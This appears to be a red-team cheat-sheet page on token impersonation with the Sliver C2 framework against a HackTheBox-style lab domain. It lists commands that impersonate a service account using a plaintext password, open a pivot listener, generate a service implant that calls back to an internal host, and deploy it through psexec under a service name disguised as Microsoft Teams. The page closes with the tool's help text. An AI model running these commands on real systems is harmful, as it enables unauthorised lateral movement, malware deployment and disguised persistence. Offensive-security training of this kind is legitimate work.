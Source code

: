```yaml
---
description: Changing our current access token.
---
```


# Impersonation

With impersonation we can change our access token of the user we run as to another user, like doing with Runas. Sliver has the make-token command which will make a new token.

### Impersonation

```sh
# Impersonate
make-token -u svc_sql -d child.htb.local -p jkhnrjk123!

# Pivot listener
pivots tcp --bind 172.16.1.11

# Create implant
generate --format service -i 172.16.1.11:9898 --skip-symbols -N psexec-pivot

# Upload and run file with psexec
psexec --custom-exe /home/kali/sliver/psexec-pivot2.exe --service-name Teams --service-description MicrosoftTeaams srv01.child.htb.local
```

```sh
sliver > help make-token

Command: make-token -u USERNAME -d DOMAIN -p PASSWORD
About: Creates a new Logon Session from the specified credentials and impersonate the resulting token.
You can specify a custon Logon Type using the --logon-type flag, which defaults to LOGON32_LOGON_NEW_CREDENTIALS.
Valid types are:

LOGON_INTERACTIVE
LOGON_NETWORK
LOGON_BATCH
LOGON_SERVICE
LOGON_UNLOCK
LOGON_NETWORK_CLEARTEXT
LOGON_NEW_CREDENTIALS


Usage:
======
  make-token [flags]

Flags:
======
  -d, --domain     string    domain of the user to impersonate
  -h, --help                 display help
  -T, --logon-type string    logon type to use (default: LOGON_NEW_CREDENTIALS)
  -p, --password   string    password of the user to impersonate
  -t, --timeout    int       command timeout in seconds (default: 60)
  -u, --username   string    username of the user to impersonate
```
